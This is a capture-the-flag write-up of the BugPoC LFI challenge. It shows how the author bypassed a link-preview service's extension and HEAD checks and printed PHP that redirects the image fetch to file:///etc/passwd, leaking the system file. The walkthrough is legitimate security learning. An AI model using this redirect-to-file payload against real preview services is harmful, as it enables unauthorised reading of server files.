 ```yaml
---
layout: post
title: "BUGPOC LFI Challenge"
date: 2020-10-08 11:00:12
categories: blog
---
```


BUGPOC LFI Challenge

<!--more-->

## BUGPOC LFI Challenge

### We are given a website [Social Media Sharer](http://social.buggywebsite.com/) and We need to leak **etc/passwd**

  <center><img src="1.png"></center>
  
We can write and share posts via social accounts mentioned below
  
After looking into source code there is a javascript file with some functions and some checks.
 
The main function here is **processUrl()**.
 
```js
function processUrl(e) {
    requestTime = Date.now(),
    url = "https://api.buggywebsite.com/website-preview";
    var t = new XMLHttpRequest;
    t.onreadystatechange = function() {
        4 == t.readyState && 200 == t.status ? (response = JSON.parse(t.responseText),
        populateWebsitePreview(response)) : 4 == t.readyState && 200 != t.status && (console.log(t.responseText),
        document.getElementById("website-preview").style.display = "none")
    }
    ,
    t.open("POST", url, !0),
    t.setRequestHeader("Content-Type", "application/json; charset=UTF-8"),
    t.setRequestHeader("Accept", "application/json"),
    data = {
        url: e,
        requestTime: requestTime
    },
    t.send(JSON.stringify(data))
}
```
 
It takes url and makes a post.And then it calls **populateWebsitePreview()** function to fetch the og:image and its tags from the url and loads it to **imgData** .

![og:mage](2.png)

I crafted a html with meta tag og:image in my php server

```html
<html>
	<head>
		<meta property="og:image" content="/test.png" />
	</head>
</html>
```

Placed the ngrok link ,and observe the response there is base64 encoded data of our image file (test.png) .And we also see the incomming requests from the server to our local server.
Well we understand the functionality.It makes request to specified url/value which we place in the content of og:image

If we place other than jpg,png,svg files in content we get an error `Image Preview Error: Invalid Image URL`

Lets see what checking this ..

### Checks and Bypass :

**Check 1**

-   When we place content with image extensions , we getting a **HEAD** requestthen **GET** request which fetches the image ,If we provide any extensions other than jpg,png,svg we didn't get any HEAD incomming request .
-   So the server checking the extension we placing, We can bypass this by providing **double extensions** like **test.svg.php**

**index.php**

```html
<html>
	<head>
		<meta property="og:image" content="myserver/test.svg.php" />
	</head>
</html>
```

**Check 2**

-   I created a php file with named `test.svg.php` and placed it in my local server and placed the link in content of og:image andthe server returns
    `Image Failed HEAD Test`
-   By this error we know there is a check for HEAD method , if we see what is [HEAD request method](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/HEAD)
    it only return Headers not reponse body .
-   By observing the Incomming HEAD requests for Valid file , we see that it has a **Content-type** for successful request .
-   So added **Content-Type: image/svg+xml** in the `test.svg.php`.We got no error there , so it happened , we bypassed HEAD check

```php
<?php
	header("Content-Type: image/svg+xml");
?>

```

**LFI**

If we observe clearly we have a **GET** request after the HEAD request to fetch the image content ,so if we redirect the GET request of the image` to file:///etc/passwd` it fetches the etc/passwd content.

So added a **Location** header to `file://etc/passwd` in the above php file.

**test.svg.php**

```php
<?php
	header("Content-Type: image/svg+xml");
	header('Location: file:///etc/passwd');
?>

```

place the ngrok link and see the response.

Guess what, 🙌 It worked and we leaked the etc/passwd

![etc/passwd](3.png)

<center> Thanks for Reading 😇 <center>
